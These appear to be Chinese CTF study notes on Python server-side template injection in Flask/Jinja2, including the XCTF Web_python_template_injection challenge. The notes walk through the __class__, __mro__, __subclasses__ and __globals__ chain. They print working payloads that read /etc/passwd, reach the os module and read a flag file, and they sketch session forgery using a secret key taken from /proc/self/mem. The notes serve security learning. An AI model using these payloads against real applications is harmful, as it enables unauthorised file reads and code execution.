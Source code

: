 利用点的思路:

```
对象实例（如 "hello"）
  ↳ __class__              # 返回类对象 <class 'str'>
       ↳ __mro__           # 返回继承链元组 (<class 'str'>, <class 'object'>)
            ↳ [1]          # 索引 1 是 object 类
                 ↳ __subclasses__()  # 返回所有子类列表
                      ↳ [40]         # 假设索引 40 是 file 类
                           ↳ __init__          # file 类的构造函数
                                ↳ __globals__   # 全局命名空间
                                     ↳ 'open'   # 文件操作函数
                                     ↳ 'os'     # OS 模块
```

`__class__`  返回类型所属的对象
`__mro__`    返回一个包含对象所继承的基类元组，方法在解析时按照元组的顺序解析。
`__base__`   返回该对象所继承的基类  // __base__和__mro__都是用来寻找基类的

`__subclasses__()`   每个新类都保留了子类的引用，这个方法返回一个类中仍然可用的的引用的列表
`__init__`  类的初始化方法
`__globals__`  对包含函数全局变量的字典的引用

最经典的利用:
(XCTF - Web_python_template_injection)

`''.__class__.__mro__` 查看继承链

`''.__class__.__mro__[2].__subclasses__()` 找到父类的所有子类, 然后锁定到其中的 file 类型进行文件读取

`''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read()` 读出 `/etc/passwd`

同理, 找到其中的 `site._Printer` 类型, 这个可以执行命令:

`''.__class__.__mro__[2].__subclasses__()[71].__init__.__globals__['os'].listdir('.')` 读出当前目录

最终 payload = `{{''.__class__.__mro__[2].__subclasses__()[40]('fl4g').read()}}` 

### flask 框架基础

flask 框架的主要文件: `app.py`

#### flask session 伪造

参考: [csdn](https://blog.csdn.net/2302_79800344/article/details/137391400)

flask session 伪造需要用到私钥, `serect_key`; `serect_key`的值可通过内存数据获取，在读取内存数据文件(`proc/self/mem`)之前，我们需要知道哪些内存是可以读写的，这就需要我们先通过`proc/self/maps`获取可读内容的映射地址:

### SSTI 注入 (RCE 高危, 常见的 Python 漏洞)

文档:
```
{% ... %} for Statements 

{{ ... }} for Expressions to print to the template output

{# ... #} for Comments not included in the template output

#  ... # for Line Statements

{%%}可以用来声明变量，当然也可以用于循环语句和条件语句。
{{}}用于将表达式打印到模板输出
{##}表示未包含在模板输出中的注释
##可以有和{%%}相同的效果
```
